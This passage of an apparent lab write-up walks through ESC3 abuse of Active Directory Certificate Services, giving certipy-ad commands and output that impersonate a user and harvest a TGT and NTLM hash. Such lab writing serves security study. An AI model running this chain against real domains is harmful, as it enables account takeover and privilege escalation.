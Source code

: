 <p class="indent-paragraph">
To exploit the ESC3 vulnerability within Active Directory Certificate Services (ADCS), a certificate was requested using the <code>Delegated-CRA</code> template, which includes the <code>Certificate Request Agent</code> EKU<span class="codefix">.</span> This template allows the requester to impersonate other users by generating valid certificates on their behalf<span class="codefix">.</span> The <code>certipy</code> tool was used with Lion.SK’s credentials to successfully obtain a certificate from the <code>Certificate-LTD-CA</code> authority<span class="codefix">.</span> The result was a valid <code>.pfx</code> file, containing a certificate and private key for the user <code>Lion.SK</code><span class="codefix">,</span> which can now be leveraged in further attacks such as forging TGTs or impersonating privileged accounts<span class="codefix">.</span>
</p>

```
~$ certipy-ad req -u 'lion.sk@CERTIFICATE.HTB' -p '!QAZ2wsx' -dc-ip '<IP>' -target 'DC01.CERTIFICATE.HTB' -ca 'Certificate-LTD-CA' -template 'Delegated-CRA'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 38
[*] Successfully requested certificate
[*] Got certificate with UPN 'Lion.SK@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1115'
[*] Saving certificate and private key to 'lion.sk.pfx'
[*] Wrote certificate and private key to 'lion.sk.pfx'
```

<p class="indent-paragraph">
Leveraging the previously obtained <code>lion.sk.pfx</code> certificate, a second request was issued using the <code>SignedUser</code> template and the <code>on-behalf-of</code> flag targeting the user <code>ryan.k</code><span class="codefix">.</span> This impersonation request was possible due to the <code>Certificate Request Agent</code> EKU present in the vulnerable <code>Delegated-CRA</code> template<span class="codefix">.</span> The command generated a new certificate and private key for <code>ryan.k</code> without requiring that user’s credentials<span class="codefix">.</span> The resulting <code>ryan.k.pfx</code> file enables authentication as <code>ryan.k</code><span class="codefix">,</span> paving the way for lateral movement or privilege escalation depending on the target account’s rights and group memberships<span class="codefix">.</span>
</p>

```
~$ certipy-ad req -u 'lion.sk@CERTIFICATE.HTB' -p '!QAZ2wsx' -dc-ip '<IP>' -target 'DC01.CERTIFICATE.HTB' -ca 'Certificate-LTD-CA' -template 'SignedUser' -pfx 'lion.sk.pfx' -on-behalf-of 'CERTIFICATE\ryan.k'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 39
[*] Successfully requested certificate
[*] Got certificate with UPN 'ryan.k@certificate.htb'
[*] Certificate object SID is 'S-1-5-21-515537669-4223687196-3249690583-1117'
[*] Saving certificate and private key to 'ryan.k.pfx'
[*] Wrote certificate and private key to 'ryan.k.pfx'
```

<p class="indent-paragraph">
With the impersonated certificate in hand, the next step involved authenticating as <code>ryan.k</code> using <code>certipy-ad auth</code> and the <code>ryan.k.pfx</code> file<span class="codefix">.</span> This process successfully generated a Kerberos TGT and stored it as a credential cache file (<code>ryan.k.ccache</code>)<span class="codefix">.</span> Additionally, Certipy extracted the NTLM hash for the impersonated user, which can be reused in pass-the-hash attacks or other post-exploitation scenarios<span class="codefix">.</span> This confirmed full impersonation and control over the account <code>ryan.k@certificate.htb</code><span class="codefix">,</span> completing a crucial step in the privilege escalation chain via ESC3 abuse<span class="codefix">.</span>
</p>
